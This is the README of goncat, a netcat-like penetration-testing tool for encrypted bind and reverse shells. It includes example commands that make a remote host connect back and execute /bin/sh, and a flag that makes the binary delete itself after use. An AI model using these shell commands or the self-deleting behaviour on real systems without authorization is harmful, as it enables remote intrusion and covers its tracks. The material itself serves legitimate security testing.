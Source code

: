 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience. 
Lastly, there are a few other convenience features such as session logging 
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:
- Reverse shell
  - On your machine: `goncat master listen --port 12345 --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
  - Remote: `goncat slave connect --host 11.22.33.44 --port 12345` to connect the remote side as a slave, which will execute `/bin/sh`.
- Bind shell
  - Remote: `goncat slave listen --port 12345` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
  - On your machine: `goncat master connect --host 55.66.77.88 --port 12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Advanced features can be enabled with additional flags:
- Encryption: add `--ssl` on both ends to enable TLS
- Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
- PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
- Logging: as master, add `--log /tmp/log.txt` to log the session to a file
- Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only. 
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky. 
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.

